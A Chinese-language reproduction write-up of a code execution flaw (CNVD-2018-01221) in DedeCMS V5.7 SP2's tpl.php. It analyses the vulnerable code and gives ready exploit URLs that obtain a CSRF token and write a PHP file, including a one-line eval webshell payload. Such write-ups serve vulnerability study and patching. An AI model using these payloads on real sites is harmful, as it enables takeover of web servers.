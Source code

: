 （CNVD-2018-01221）DedeCMS V5.7 SP2存在代码执行漏洞
===================================================

一、漏洞简介
------------

DedeCMS V5.7
SP2版本中tpl.php存在代码执行漏洞，攻击者可利用该漏洞在增加新的标签中上传木马，获取webshell

二、漏洞影响
------------

三、复现过程
------------

需要登录后台

根据公开的漏洞知道tpl.php里面251-281行存在代码执行漏洞，打开tpl.php文件

![](./resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId24.png)

### 代码分析

    (1)此处定义了一个savetagfile的函数，首先做一个判断，参数“action”是否等于savetagfile，如果等于，就进行下一步
    (2)csrf_chack(),这里有一个csrf检验的函数，我们需要加上token来绕过，token是登陆的令牌，当我们向服务器发送登录请求时，在客户端会生成一个用于验证的令牌。
    (3)正则表达式匹配，详情参见https://www.runoob.com/regexp/regexp-rule.html*
       [a-z0-9_-]{1,}的意思是，匹配所有包含一个以上的字母数字下划线和横杠，后面的\.意思是匹配小数点
       所以最终那个判断条件的意思是如果参数filename不符合上述的匹配条件，那么就不允许修改操作的进行，所以文件名必须要.lib.php结尾。
    (4)preg_replace的意思是执行一个正则表达式的搜索和替换，我们可以通过例子来分析一下,发现得到的$tagname的值为moonsec
    (5)stripslashes()的作用是引用用一个引用字符串，此处没有多大的作用
    (6)最后是把$content里的内容写入到相对用的路径里，问题就出在了这里，这一部分代码除了对写入的文件名字做了简单的过滤，除了有一个csrf防护之外，其他并没有什么安全措施，     
       导致我们可以任意写入代码，如果我们直接写入一句话木马，那么就可以直接连上去拿webshell了

根据上面的代码知道要上传的参数有：action,token,filename,content.现在只剩下获取token了，要怎么才能获取到token呢？我们再去tpl.php里看一下，发现action的参数有很多，比如del，upoladok，edit，upload等等，但只有传入upload的时候页面才会回显正常，而其他的都会显示token异常，所以只能通过action=upload来获取token。

### 漏洞复现

获取token

    http://0-sec.org/dede/tpl.php?action=upload

![](./resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId27.png)

然后查看网页源代码，找到token

![](./resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId28.png)

构造payload如下

    http://0-sec.org/dede5.7/dede/tpl.php?filename=(文件名随意).lib.php&action=savetagfile&content=%3C?php%20phpinfo();?%3E&token=f1ccc319d5c897a3a362335792a21e05(替换你复制的token)

访问了成功写入

![](./resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId29.png)

访问写入的文件

    http://0-sec.org/include/taglib/（你上传的文件名）.lib.php

![](./resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId30.png)

也可以构造一句话木马payload

    http://0-sec.org/dede5.7/dede/tpl.php?filename=caidao.lib.php&action=savetagfile&content=%3C?php%20@eval($_POST[%27dylan%27])?%3E&token=2d7ef87e9828edaad2d7b6bbe37f1929

![](./resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId31.png)
